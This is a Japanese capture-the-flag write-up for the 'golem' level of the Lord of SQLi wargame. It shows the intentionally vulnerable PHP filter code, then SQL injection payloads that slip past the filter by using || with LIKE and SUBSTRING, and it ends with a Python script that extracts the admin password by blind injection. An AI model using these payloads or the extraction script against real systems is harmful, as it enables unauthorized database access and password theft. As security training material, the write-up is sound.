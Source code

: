 # golem

## answer

- [golem](../src/golem.py)

## problem

```
query : select id from prob_golem where id='guest' and pw=''

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and|substr\(|=/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_golem where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_golem where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("golem"); 
  highlight_file(__FILE__); 
?>
```

## memo

試しに、

```
https://los.eagle-jump.org/vampire_0538b0259b6680c1ca4631a388177ed4.php?id=1
```

とすると

```
query : select id from prob_vampire where id='1'
```

となった。

コードを読んでいく。

```
if(preg_match('/or|and|substr\(|=/i', $_GET[pw])) exit("HeHe"); 
```

これイコールも禁止されている気がするんだけど、

```
?pw=1' || '1' = '1
```

このイコールも"Hehe"になってしまうからダメ。

```
?pw=1'||'1
```

これを試してみる。

```
https://los.eagle-jump.org/golem_39f3348098ccda1e71a4650f40caa037.php?pw=1%27||%271

query : select id from prob_golem where id='guest' and pw='1'||'1'

Hello guest
```

とりあえずHello guestは出せた。

このあと、adminのpwを抜いてきたい。

やっぱりBlindSQLiかなと思ってはいるが、「=」がフィルターされていることを考えないといけない。

このような場合に、like句を活用できるらしい。

like句の使い方はこんな感じらしい。

```
SELECT * FROM employee WHERE name LIKE 'taro'
```

以上のように使うとlike句はイコールとして使うことができる、、、

```
?pw=' || length(pw) like 8 && id like 'admin
```

をurlエンコードしてから貼り付ける。

```
https://los.eagle-jump.org/golem_39f3348098ccda1e71a4650f40caa037.php?pw=%27%20%7C%7C%20length(pw)%20like%208%20%26%26%20id%20like%20%27admin

query : select id from prob_golem where id='guest' and pw='' || length(pw) like 8 && id like 'admin'

Hello admin
```

長さを変えながら試してたら、8でHello adminがでた。BlindSQLiで間違いなさそう。

また、「substr(」がフィルターされていることも考えないといけない。

MYSQLなら「substring」で代替できるかもしれない。

これでちょっと調べてみたい。

```
?pw=' || substring(pw, 1, 1) < 'A' && id like 'admin

?pw=' || substring(pw, 1, 1) > 'A' && id like 'admin
```

上のみHello adminを返す。

```
query : select id from prob_golem where id='guest' and pw='' || substring(pw, 1, 1) < 'A' && id like 'admin'

Hello admin
```

以上をふまえてコードを書いてみる。

```
#!/usr/bin/python3
# coding : UTF-8

import sys
import requests
import time

def main():
    url = "https://los.eagle-jump.org/golem_39f3348098ccda1e71a4650f40caa037.php"
    ua = 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/67.0.3396.99 Safari/537.36'
    headers = {'User-Agent': ua}
    cookies = dict(PHPSESSID='cgq355ag1vlid052btnp68fpo7')

    chars = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"
    password = ""
    for count in range(1, 10):
        for char in chars:
            val = '\' || SUBSTRING(pw,{count},1) like \'{char}\' && id like \'admin'.format(count = count, char = char)
            params = {'pw': val}
            response = requests.get(url, headers=headers, params=params, cookies=cookies, allow_redirects=False)
            if response.text.count("Hello admin") == 1:
                password += char
                print(password)
                break
            if char == 'Z':
                print("not found")
                return
    print(password)

if __name__ == "__main__":
    main()
```

## references

- [preg_match | php manual](https://www.php.net/manual/ja/function.preg-match.php)

- [mysql_fetch_array | php manual](https://www.php.net/manual/ja/function.mysql-fetch-array.php)

- [mysql_query | php manual](https://www.php.net/manual/ja/function.mysql-query.php)

- [addslashes | php manual](https://www.php.net/manual/ja/function.addslashes.php)

- [highlight_file | php manual](https://www.php.net/manual/ja/function.highlight-file.php)

- [文字列関数 | mysql manual](https://dev.mysql.com/doc/refman/5.6/ja/string-functions.html)